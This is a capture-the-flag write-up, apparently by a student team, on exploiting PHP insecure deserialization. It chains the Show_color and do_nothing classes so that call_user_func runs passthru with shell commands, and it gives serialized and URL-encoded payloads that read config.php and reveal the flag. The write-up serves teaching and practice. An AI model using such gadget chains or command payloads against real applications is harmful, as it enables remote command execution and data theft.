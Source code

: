 # CTF Challenge with Group ✌
- **Insecure Deserialization**:<br>
- **Subject:** CTF Challenge in Secure Programming and Exploiting Vulnerabilities subject<br>
- **Team:** Blackberries<br>
- **Link:** http://45.122.249.68:10001/

## Write Up:<br>
- Enter link, we see a PHP code
```
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```
- There are 3 main classes:  `User`, `Show_color` and `do_nothing`<br>
- The "main" code:
```
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
The code above will get the value of `code` in URL through `$_GET[]` and **unserialize** the variable `code` . In case `code` is **null** then show the code like being - `highlight_file(__FILE__);`.There are two another function `__construct()` và `__destruct()` and this is the good case for **insecure deserialization** with **unserialize** has no verify-input job so we can take advantage of this to exploit
- We notice that `User` class seems strange when a line shows  `admin=false`and when `admin=true` then print `"hi admin, here is your flag"`. So we trying to serialize the `User` object.
```
$a = new User('name');
$b = serialize($a);
echo $b;
```
Serialized string: `O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:0;}`.
Change the value `admin` into `true`-> Change `b:0` into `b:1`. Give this to `$code` in URL: 
http://45.122.249.68:10001?code=O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:1;}
We only see a blank page and nothing special with source code (Ctrl + U)
- According to next 2 classes, they're likely to be vulnerable cause in class `Show_color`, it uses `call_user_func()`. With this, we can execute our desired command with the first parameter is the function, the second one is the parameter for the precede function. For more details, see [here](https://www.php.net/manual/en/function.call-user-func). Considering some functions that allow us to **execute shell**: `exec()`, `shell_exec()`, `system()`, `passthru()`, which `system()` and `passthru()` are the best use cases (as I think) cause it's easy to use.
- Next, we think how to put that **excute shell** in classes's methods. 
```
public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
```
- As recommendation,  `passthru()` is passed into first parameter and `ls` will be the second. But the problem here, with second one we can transfer `ls` into `$color`through **constructor** but can not transfer `passthru` into the first cause its operation `$this->type->adu`, we have to manage to set `$this-type` as an object and `adu` would be the member or method.
- Take a look at `do_nothing`class, there is a fucntion `__get()`.This is one of [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) to override the reserved function by PHP. `__get()` take a parameter as a member or method. In the code, function `__get()` return  `this ->i_use_this` when  `this->why` is not empty. 
### Solution:
- Create instance  `do_nothing` with 2 parameters `123` (Optional value)  and `passthru`. 
- Create instance`Show_color` with 2 parameters **do_nothing object** above and the command we want to execute ex. `ls`. 
- Then **serialize** object  `Show_color`
**Sample**:
```
$a = new do_nothing(123,"passthru");
$b = new Show_color($a,"ls");
$code = serialize($b);
echo $code;
```
Output:
`O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}`
- Send to  var `code` and send request to reload page <br>

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138675519-6fc911d4-823a-405a-b6f8-a74da4e05dec.png">
</p>

- There are 2 files. The command was executed successfully, we can review the logic flow as the following: Take a deep in the line `call_user_func($this->type->adu,$this->color);`. `$this->type` will become `$a`, means it will operate this `call_user_func($a->adu,$this->color);`. How about `$a->adu` was processed? Back again in `__get($method)` . And `$method` here is `adu`, this `$method` is actually do nothing, `$this->why` is set **null** to run the **block code** inside `return $this->i_use_this;` , it's equivalent to `return passthru($command)` with **$command** we have set above - `ls`.
- Afterthat, we try read file `config.php` first. Change `ls` into `cat config.php` , serialize again and do the similar with all the step above
Payload: O:10:"Show_color":2:{s:5:"color";s:13:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138678027-6bf37d9f-08e8-4fc4-a663-242a7e406030.png">
</p>

Seem not work? We take a consideration the variable we handle when manipulate all the value through URL, which will be affected by **URL Encode**. So in `cat index.php` it was the "space" in the string that will be encoded. For working properly, we should encode the payload

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138679801-71a74d2a-a376-478c-a92f-29e0da356e67.png">
</p>

**Final Payload**: %4f%3a%31%30%3a%22%53%68%6f%77%5f%63%6f%6c%6f%72%22%3a%32%3a%7b%73%3a%35%3a%22%63%6f%6c%6f%72%22%3b%73%3a%31%34%3a%22%63%61%74%20%63%6f%6e%66%69%67%2e%70%68%70%22%3b%73%3a%34%3a%22%74%79%70%65%22%3b%4f%3a%31%30%3a%22%64%6f%5f%6e%6f%74%68%69%6e%67%22%3a%32%3a%7b%73%3a%33%3a%22%77%68%79%22%3b%69%3a%31%32%33%3b%73%3a%31%30%3a%22%69%5f%75%73%65%5f%74%68%69%73%22%3b%73%3a%38%3a%22%70%61%73%73%74%68%72%75%22%3b%7d%7d
- Blank page, check the source code.
```
<?php
$flag = "flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}";
?>
```
**=>flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
